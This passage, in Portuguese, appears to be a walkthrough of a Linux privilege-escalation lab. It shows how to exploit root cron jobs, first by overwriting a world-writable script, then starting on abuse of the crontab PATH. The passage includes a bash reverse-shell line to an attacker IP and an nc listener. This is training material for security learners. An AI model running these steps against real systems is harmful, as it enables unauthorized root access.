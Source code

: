 Percebe-se que existem dois cron jobs programados para serem executados a cada minuto. Um executa overwrite.sh, o outro executa /usr/local/bin/compress.sh.

Localize o caminho completo do arquivo overwrite.sh:

```shell
user@debian:~$ find / -name overwrite.sh -type f 2>/dev/null
/usr/local/bin/overwrite.sh
```
É interessante checar as permissões desse arquivo. Agora que se sabe o caminho, poderia ser executado um ***ls -l /usr/local/bin/overwrite.sh***. Entretanto, o comando find usado anterior pode ser modificado para fazer as duas coisas, ou seja, localiza e já lista mostrando as permissões:

```shell
user@debian:~$ find / -name overwrite.sh -type f -exec ls -l {} \; 2> /dev/null
-rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh
```

Como o arquivo possui permissão de gravação para outros usuários, ficou fácil. Basta modificar o arquivo overwrite.sh para um conteúdo malicioso, por exemplo, abrir um shell reverso, como abaixo:

```shell
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

**Obs.**: o ip 10.10.10.10 deve ser modificado para o IP da máquina atacante.

Na máquina atacante, basta iniciar um netcat para escutar na porta 4444 com:

```shell
nc -nvlp 4444
```

Agora, basta aguardar a execução do cron job para ter uma sessão de shell reversa aberta no host atacante, a partir do host alvo.

### Questões:

- a. ***Read and follow along with the above.*** *Não há necessidade de resposta*

## 9 - Cron Jobs - PATH Environment Variable 

Ao visualizar o conteúdo do arquivo ***/etc/crontab***, pode-se perceber que existem variáveis de ambientes configuradas. Algumas vezes, pode ter uma variável de ambiente para um caminho que tenha permissão mais flexível, permitindo exploração.

```shell
user@debian:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```
